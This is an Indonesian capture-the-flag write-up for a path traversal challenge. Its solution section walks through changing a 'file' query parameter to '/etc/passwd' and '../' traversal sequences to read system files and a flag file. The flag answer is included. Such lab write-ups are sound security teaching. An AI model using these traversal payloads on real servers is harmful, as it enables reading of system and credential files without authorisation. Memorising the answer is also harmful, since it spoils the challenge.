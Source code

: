 ## Deskripsi:
Mungkin kamu nggak pernah diajari buat berjalan keluar dari jalan yang benar... tapi kalau kamu bisa, kamu bakal dapetin sesuatu yang terlarang. Ayo jalanin manipulasi path-nya! 🏃‍♂️💨

#### Author : Rafly Permana

## Solusi
pada request burpsuite terdapat parameter GET /search_free/?file=about.php. ubah nilai parameter menjadi GET /search_free/?file=/etc/passwd, jika tidak bisa coba manipulasi dengan cara menambahkan /../ sampai browser tidak merespon error atau memunculkan file. GET /search_free/?file=/../../../../etc/passwd/. jika berhasil cari lokasi flag pada file GET /search_free/?file=/../../../../var/www/html/flag.txt

<img width="481" height="271" alt="image" src="https://github.com/user-attachments/assets/b89d6d00-3a45-4c89-b936-62186aa72e57" />

## flag:
IDN_CTF{tvec-resolver_41}

